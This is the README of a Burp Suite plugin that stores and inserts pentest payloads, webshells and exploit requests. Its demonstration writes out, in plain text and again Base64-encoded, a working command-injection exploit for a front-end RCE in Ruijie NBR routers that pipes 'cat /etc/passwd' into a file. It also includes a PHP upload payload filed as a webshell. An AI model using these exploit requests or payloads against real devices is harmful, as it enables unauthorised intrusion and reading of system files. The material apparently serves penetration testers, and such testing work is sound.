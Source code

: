 ## 哆啦A梦的四次元口袋

### 前言

1、在渗透测试或挖 SRC 的时候每次都需要在笔记中复制一些 Payload 或 Webshell 内容觉得太麻烦了，所以打算 **抄一个** Burpsuite 插件，直接在 Burpsuite 中插入内容就简单多了。

2、在复现一些Http 请求的漏洞，每次都需要在笔记复制exp或写个简单的 python 脚本觉得太麻烦了，如果在 Burpsuite 中直接修改请求包就简单多了。



### 使用

1、加载插件会在 **Burpsuite 目录下新建了一个目录和二个文件**

2、**使用 sublime text 来修改 exp.yaml 和 payload.yaml** （**yaml 语法**）

```
DAM_Config:
|_exp.yaml
|_payload.yaml
```

### 更新日志
1.0.2 版本添加了一个 GUI 方便查看 漏洞 和 Payload

![3](./images/3.png)


### 已知BUG

第三层不能同名，这样通过 JSP 获取内容就会出错，只会获取到最后一个 冰蝎3 的 JSP

```yaml
WebShell:
  哥斯拉:
    JSP:
      dGVzdA==
  冰蝎3:
    JSP:
      MTIz
```

建议修改为

```yaml
WebShell:
  哥斯拉:
    哥斯拉-JSP:
      dGVzdA==
  冰蝎3:
    冰蝎3-JSP:
      MTIz
```

这样就可以获取到相对的内容。




#### payload.yaml 文件：演示

该文件是把 **Payload 插入到 数据包 中** （在文件上传的时候快速插入webshell，不用再生成或者翻文件来复制粘贴了）

```
<?php phpinfo();?>
```

需要把 payload  Base64 编码

```
PD9waHAgcGhwaW5mbygpOz8+
```

```
WebShell:
  蚁剑:
    PHP:
      PD9waHAgcGhwaW5mbygpOz8+
```

![2](./images/2.png)



#### exp.yaml 文件：演示

获取 host 和 Cookie **修改整个数据包**（如果 Repeater 没有 Target 就使用不了）

host 和 cookie 的位置使用占位符 `%s`  ,  如果是未授权的就不需要 cookie。

```
POST /guest_auth/guestIsUp.php HTTP/1.1 
Host: %s
Connection: close Upgrade-Insecure-Requests: 1 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36 
Cookie: %s
Content-Type: application/x-www-form-urlencoded 
Content-Length: 56 

mac=1&ip=127.0.0.1|cat /etc/passwd > test.txt
```

然后把 exp   **Base64编码**

```
UE9TVCAvZ3Vlc3RfYXV0aC9ndWVzdElzVXAucGhwIEhUVFAvMS4xIApIb3N0OiAlcwpDb25uZWN0aW9uOiBjbG9zZSBVcGdyYWRlLUluc2VjdXJlLVJlcXVlc3RzOiAxIApVc2VyLUFnZW50OiBNb3ppbGxhLzUuMCAoV2luZG93cyBOVCAxMC4wOyBXaW42NDsgeDY0KSBBcHBsZVdlYktpdC81MzcuMzYgKEtIVE1MLCBsaWtlIEdlY2tvKSBDaHJvbWUvODUuMC40MTgzLjEyMSBTYWZhcmkvNTM3LjM2IApDb29raWU6ICVzCkNvbnRlbnQtVHlwZTogYXBwbGljYXRpb24veC13d3ctZm9ybS11cmxlbmNvZGVkIApDb250ZW50LUxlbmd0aDogNTYgCgptYWM9MSZpcD0xMjcuMC4wLjF8Y2F0IC9ldGMvcGFzc3dkID4gdGVzdC50eHQ=
```

编写 exp.yaml（**yaml 语法**）

```
设备漏洞:
  锐捷漏洞:
    锐捷NBR路由器-前台RCE:
      UE9TVCAvZ3Vlc3RfYXV0aC9ndWVzdElzVXAucGhwIEhUVFAvMS4xIApIb3N0OiAlcwpDb25uZWN0aW9uOiBjbG9zZSBVcGdyYWRlLUluc2VjdXJlLVJlcXVlc3RzOiAxIApVc2VyLUFnZW50OiBNb3ppbGxhLzUuMCAoV2luZG93cyBOVCAxMC4wOyBXaW42NDsgeDY0KSBBcHBsZVdlYktpdC81MzcuMzYgKEtIVE1MLCBsaWtlIEdlY2tvKSBDaHJvbWUvODUuMC40MTgzLjEyMSBTYWZhcmkvNTM3LjM2IApDb29raWU6ICVzCkNvbnRlbnQtVHlwZTogYXBwbGljYXRpb24veC13d3ctZm9ybS11cmxlbmNvZGVkIApDb250ZW50LUxlbmd0aDogNTYgCgptYWM9MSZpcD0xMjcuMC4wLjF8Y2F0IC9ldGMvcGFzc3dkID4gdGVzdC50eHQ=
```

![1](./images/1.png)

### 参考

https://github.com/d3vilbug/HackBar
